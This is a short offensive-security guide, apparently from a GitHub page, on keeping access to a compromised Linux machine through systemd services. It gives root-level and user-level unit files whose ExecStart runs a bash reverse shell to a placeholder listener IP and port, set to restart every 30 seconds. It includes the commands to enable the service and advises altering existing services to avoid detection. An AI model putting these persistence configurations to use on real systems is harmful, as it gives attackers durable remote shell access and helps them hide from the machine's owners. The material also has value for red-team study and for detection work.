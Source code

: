 ### Persistence via System Services
If you have root permissions, you can create a system service that runs automatically after
reboot as any user you want. The system service can be configured to run malicious commands
and call back to your attacker machine.

You could also modify an existing system service, to avoid detection, so it runs malicious
commands whenever the system service runs.

#### System Service:
System Service Example:

```
[Unit]
Description=ReverseShell
After=network.target
 
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<listener_IP>/<listener_port> 0>&1'
Restart=always
RestartSec=30
 
[Install]
WantedBy=multi-user.target
```
You should save this file as any filename with the extension `.service` and put it in
the `/etc/systemd/service/` directory.

To enable and start the service, run the commands:

```
(sudo) systemctl enable <service_name>.service
and
(sudo) systemctl start <service_name>.service

You can check the status of the service by running the command:
(sudo) systemctl status <service_name>.service
```

#### User Service:
If you do not have root permissions, you can still create a user service to retain 
persistence as a non-privileged user.

User Service Example:

```
[Unit]
Description=Persistence Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<listener_ip>/<listener_port> 0>&1'
Restart=always
RestartSec=30

[Install]
WantedBy=default.target
```
You should save this file as any filename with the extension `.service` and put it in 
the `~/.config/systemd/user/` directory.\
If this directory does not exist, you can create it using the command:\
`mkdir -p ~/.config/systemd/user`
